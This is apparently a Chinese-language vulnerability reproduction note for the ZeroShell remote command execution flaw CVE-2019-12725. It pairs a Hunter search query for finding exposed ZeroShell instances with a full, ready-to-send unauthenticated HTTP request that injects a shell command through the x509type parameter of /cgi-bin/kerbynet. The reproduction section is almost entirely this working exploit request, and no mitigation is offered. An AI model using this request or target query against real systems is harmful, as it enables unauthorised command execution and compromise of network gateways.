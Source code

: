 # ZeroShell 3.9.0 远程命令执行漏洞(CVE-2019-12725)

# 一、漏洞简介
Zeroshell是一个微型的linux发行版本，它功能强大，具有强大的router、radius、web门户、防火墙、virtual**、Qos、 DHCP、dns转发等功能，可以用来安装到服务器上为内网提供网络服务。ZeroShell 3.9.0 存在命令执行漏洞，/cgi-bin/kerbynet 页面，x509type 参数过滤不严格，导致攻击者可执行任意命令。

# 二、影响版本
+ ZeroShell < 3.9.0

# 三、资产测绘
+ hunter`app.name="ZeroShell"`
+ 特征

![1700238326883-4aa88d39-2cd9-4a09-bf76-20df4b3c1e85.png](./img/Qk7FY11KBJGYROTD/1700238326883-4aa88d39-2cd9-4a09-bf76-20df4b3c1e85-616604.png)

# 四、漏洞复现
```plain
GET /cgi-bin/kerbynet?Action=x509view&Section=NoAuthREQ&User=&x509type=%27%0Aid%0A%27 HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2227.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Connection: close
```

![1700238420978-583c020a-3c1f-4fe5-8518-a7752c20d39c.png](./img/Qk7FY11KBJGYROTD/1700238420978-583c020a-3c1f-4fe5-8518-a7752c20d39c-022453.png)



> 更新: 2024-02-29 23:57:12  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/cwidw8o3h26689ls>